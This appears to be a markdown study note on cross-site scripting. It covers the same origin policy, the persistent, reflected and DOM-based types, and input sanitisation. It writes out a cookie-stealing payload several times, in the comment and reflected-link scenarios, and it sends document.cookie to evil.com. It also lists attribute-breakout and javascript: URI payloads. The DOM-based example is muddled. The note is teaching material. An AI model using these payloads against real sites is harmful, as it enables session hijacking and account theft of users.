 # XSS
XSS is a code injection attack which allows the attacker to execute malicious JAVASCRIPT in another user's browser

- JS is a client side scripting  language where code runs in your browser
- JS can be written inside HTML files inside HTML <script> tag
- Code within this <script> tags is executed in the context of the site

The web's security model is based on the same origin policy
Origin refers to the combination of 
- 1 The url scheme eg http or https
- 2 the hostname e.g google
- 3 the port number, typically 80 for public sites

- This basically means that code (HTML, CSS, JS) from http://somesite.com can only access the data of http://somesite.com
which means that in theory http://evil.com cannot access data from any site other than http://evil.com!
- The key thing here is how do we define code from http://somesite.com.
- This is HTML, CSS , JS which served from that server
- XSS is all about making the browser believe that malicious code came from a trusted site!

- JS runs in a very restricted environment on your browser and it has limited access to that user's operating system and files
- Access cookies which usually contain session information - this can be used to impersonate a user
- send XmlHTTP Requests with any content to any destination
- Edit the DOM of the current website to anything it wants
- JS in modern HTML5 browsers can access the user's geolocation, webcam, certianfiles on user computer
- Remember all this while you believe that you are ona trusted site
- combining the capability of JS and socail engineering hacker can steel a lot.

Phising can happen with this
- Insert a form into DOM of the trusted page and direct the results to be submitted to the attackers server

http://excess-xss.com - great resource to learn all about XSS

#### Example
- 3 actors in XSS attack = Attacker, website, victim
Attacker
- XSS attack targets website not a specific user
- Any user of that website can be compromised
- Name of attacker's website http://www.evil.com
- Attacker seeks: Access to victim's session ID sent via cookies
- script attacker wants to inject
```javascript
<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script>
```
- the cookie information from the current site is apssed as a query parameter to the malicious site.
- evil site can record this info and use it in further attacks.
Website
- name of trusted website: http://www.trustedsite.com
- the website is vulnerable to XSS attacks
Victim
- any user of the trusted website
- willing to handover sensitive information to the site
- so how can the attacker inject this script into a trusted website? = unvalidated and unsanitized user input

Scenario
- lets say the trusted site allows users to input comments - on anything
<input> name
<textbox> comment
 <button> submit
- the forum page on the trusted site displays all comments which have been added.
- whatever the users write the exact same comment without modifications is shown.
- Now attacker came to trusted site and he entered comment as below and hit submit button

```javascript
<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script>
```

- Now, this input is written directly to the websites comment database(user input has not cleaned in anyway (UNVALIDATED & UNSANITIZED USER INPUT).
- Now our victim visits the comments page of the trusted site
- Boom !!  so what just happened? = victims session ID has gone to evil.com

### Types of XSS
3 types
- 1 Persistent XSS
- 2 Reflected XSS
- 3 DOM Based XSS

##### Persistent XSS
- The malicious script originates from the website's database
- the injected <script> has been persisted amongst other valid data in the website's storage.
- The comment exaple we just saw is Persistent XSS

##### Reflected XSS
- the malicious script is part of the victims request to the website.
- the website then reflects this string back to victim.
lets say the website is a serach page which displays the search query to screen along with the results (like google search)
- eg: you searhced for cute puppies.
- The search term has been rendered on the screen
- ``` http://www.trustedsearch.com?query=cute puppies ```
- this would initiate the search on the servers and return results to the user
- Attacker sends a link chekout the cute puppies on this page where 'this' is hyperlinked to 
``` http://www.trustedsearch.com?query=<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script> 
```
- The victim's browser will execute that script and send his cookie info to attackers server
- there is some social engg aspect to get the victim to click on the URL - it may be sent via email or posted somewhere on social media.
- This can be further masked by using a URL shortening service such as Tiny URL or Bitly

##### DOMbased XSS
The malicious script is injected somehow into the site - exactly as in the other cases.
- The malicious script is not parsed by the website until it executes the legimate JS in the website
- this is subtle - the malicious user input is not directly rendered as HTMl
- instead the legitimate JS on the page - accesses the input and updates the page.
``` html
<html>
 <script>
  var hash = window.location.hash;
  document.getElementByID('display-id').innerHTML = hash;
 </script>
 <div id="display-id"></div>
</html>
```
- say the url is ``` http://www.trustedsite.com#boo ```
- the legitimate JS in the page is first executed and that updates the HTML to include the unvalidated and unsanitized input.
- so if it is
``` http://www.trustedsite.com#<script>
  var hash = window.location.hash;
  document.getElementByID('display-id').innerHTML = hash;
 </script>
 ```
- as web apps get more interactive and advanced client side scripting and DOM manipulation becomes more important.
- JS is used to manipulate the DOM anytime you want to change the apage contents without reloading the whole page
- this means that you need to be careful about XSS vulnerabilities in client side as well as server side code.
- so server side validation is just not enough = Client side vulnerability

### Preventing XSS

- user input is always asumed to be malicious! and it should be treated as such.
- user input should always be sanitized and validated before it is used.
- so, where is user input possible? = many many places
- enclosed as HTML content within HTML attributes, query strings, client hashes, stylesheets as value. 
- `<input value="userInput">`
- `<img src="javascript:alert("XSS");">`
- `<table background="javacsript:alert("xss");">`
- query strings = `http://example.com/?parameter=userInput`
- client hashes `http://example.com#userInput
- stylesheet values `color: userInput;`  
- In JS `document.getElementByID('blah').innerHTML=userInput`
This means that malacious user input has many contexts to operate in

Legitimate HTML on the site
`<input value="userInput">`
Malicious script
`"><script>...</script><input value="`
Resultant HTML on the site ( combining above two
`<input value=""><script>...</script><input value="">`



   
   
   




